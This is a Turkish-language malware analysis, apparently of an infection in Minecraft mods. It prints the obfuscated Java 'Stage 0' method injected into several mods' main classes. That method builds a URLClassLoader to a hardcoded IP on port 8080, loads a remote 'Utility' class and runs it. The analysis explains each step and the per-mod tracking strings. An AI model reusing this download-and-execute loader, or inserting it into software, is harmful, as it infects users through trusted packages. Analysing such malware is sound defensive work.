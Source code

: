Etkilenen mod veya eklentilerin ana sınıflarına yeni bir `static void` yöntemi eklenir ve bu yönteme yapılan bir çağrı sınıfın statik başlatıcısına eklenir. DungeonZ için yöntem `_d1385bd3c36f464882460aa4f0484c53` olarak adlandırılır ve `net.dungeonz.DungeonzMain` içinde bulunur. Skyblock Core için yöntem `_f7dba6a3a72049a78a308a774a847180` olarak adlandırılır ve `com.bmc.coremod.BMCSkyblockCore` içine eklenir. HavenElytra için kod doğrudan `valorless.havenelytra.HavenElytra` öğesinin başka şekilde kullanılmayan statik başlatıcısına eklenir.

Yöntemin kodu, dize değişmezleri yerine `new String(new byte[]{...})` kullanılarak gizlenmiştir.

D3SL "Create Infernal Expansion Plus" örneğinden, ana mod sınıfına kötü amaçlı yazılım eklenmiş "Create Infernal Expansion Compat "ın taklitçi bir sürümü:
```java
static void _1685f49242dd46ef9c553d8af1a4e0bb() {
  Class.forName(new String(new byte[] {
      // "Utility"
    85, 116, 105, 108, 105, 116, 121
  }), true, (ClassLoader) Class.forName(new String(new byte[] {
      // "java.net.URLClassLoader"
    106, 97, 118, 97, 46, 110, 101, 116, 46, 85, 82, 76, 67, 108, 97, 115, 115, 76, 111, 97, 100, 101, 114
  })).getConstructor(URL[].class).newInstance(new URL[] {
    new URL(new String(new byte[] {
        // "http"
      104, 116, 116, 112
    }), new String(new byte[] {
        // "85.217.144.130"
      56, 53, 46, 50, 49, 55, 46, 49, 52, 52, 46, 49, 51, 48
    }), 8080, new String(new byte[] {
        // "/dl"
        47, 100, 108
        }))
  })).getMethod(new String(new byte[] {
      // "run"
    114, 117, 110
  }), String.class).invoke((Object) null, "-114.-18.38.108.-100");
}
```

Bu:
1. URL `http://[85.217.144.130:8080]/dl` ([shodan](https://www.shodan.io/host/85.217.144.130)) ile bir `URLClassLoader` oluşturur
2. Classloader'dan `Utility` sınıfını yükler, internetten kod getirir
3. Her enfekte mod (!) için farklı bir String argümanı geçirerek `Utility` üzerindeki `run` yöntemini çağırır. Örneğin
    * Skyblock Core: "`-74.-10.78.-106.12`"
    * Dungeonz: "`114.-18.38.108.-100`"
    * HavenElytra: "`-114.-18.38.108.-100`"
    * Kasa Entegrasyonları: "`-114.-18.38.108.-100`"

Aktarılan sayılar Aşama 1 tarafından bayt olarak ayrıştırılır ve ".ref" adlı bir dosyaya yazılır. Bunlar, yazarın enfeksiyon kaynaklarını izlemesinin bir yolu gibi görünmektedir.

Sınıf yükleyicinin oluşturulması bu URL'ye sabit kodlanmıştır ve Aşama 1'in yaptığı Cloudflare URL'sini kullanmaz. Bu IP şu anda çevrimdışı olduğundan, bu da *şu anda bildiğimiz* Aşama 0 yüklerinin artık çalışmadığı anlamına gelmektedir.
